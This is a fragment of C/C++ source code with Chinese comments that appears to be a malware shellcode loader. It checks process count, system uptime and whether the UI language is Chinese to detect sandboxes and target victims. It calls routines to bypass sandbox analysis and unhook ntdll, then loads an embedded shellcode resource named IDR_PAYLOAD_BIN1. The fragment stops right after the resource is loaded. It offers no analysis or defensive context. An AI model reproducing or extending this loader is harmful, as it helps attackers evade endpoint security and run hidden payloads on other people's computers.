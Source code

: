 ```

    if (INVALID_HANDLE_VALUE == snapShot)
    {
        return;
    }
    PROCESSENTRY32 pe = { sizeof(pe) };

    int num = 0;
    for (BOOL ret = Process32First(snapShot, &amp;pe);ret; ret = Process32Next(snapShot, &amp;pe))
    {
        num++;
    }
    if (num &lt;= 60)
    {
        exit(1);
    }

}

void RunCode() {}
//检测发行版本
int check() {

    LANGID langId = GetUserDefaultUILanguage();
    if (PRIMARYLANGID(langId) == LANG_CHINESE)
    {
        printf("Chinese");
        RunCode();
    }
    else
    {
        printf("Error");
        exit(1);

    }
    return 0;

}

int main(int argc, char* argv[])
{
    //先绕沙箱
    BypassSimulation();

    check();
    ULONG uptime = GetTickCount();
    if (uptime &gt;= 10 * 60 * 1000) {
        MessageBox(NULL, L"程序异常！", L"异常,请稍后", MB_OK | MB_ICONERROR);
    }
    else {
        exit(1);
    }

    UNHOOKntdll();

    DWORD oldProtect;
    BOOL pt;
    //找到shellcode资源，获取它的资源句柄
    //它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), 
  L"PAYLOAD_BIN");
    //读取其中的数据
    HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
```